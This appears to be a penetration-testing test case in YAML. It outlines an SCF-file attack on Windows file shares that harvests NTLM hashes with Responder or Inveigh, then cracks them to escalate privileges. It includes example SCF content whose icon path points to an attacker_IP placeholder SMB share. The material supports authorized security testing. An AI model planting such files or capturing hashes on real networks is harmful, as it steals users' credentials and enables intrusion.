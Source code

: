 ```yaml
---
testcase: Interacting with Users - Malicious SCF File on File Share
platforms:
  - AD
  - Windows
methodology:
  - BlackBox
  - GreyBox
references:
  - https://attack.mitre.org/techniques/T1552/
how-to-test: |
  - Craft an SCF file with an icon path pointing to an attacker-controlled SMB share.
  - Place the SCF file in a directory or file share that users are likely to access.
  - Start a tool such as Responder or Inveigh to capture authentication attempts.
  - Wait for a user to access the share and attempt to capture NTLM hashes.
  - Attempt to crack captured hashes and escalate privileges if successful.
  - Example SCF file content:
    [Shell]
    Command=2
    IconFile=\\<attacker_IP>\share\legit.ico
    [Taskbar]
    Command=ToggleDesktop
---
```

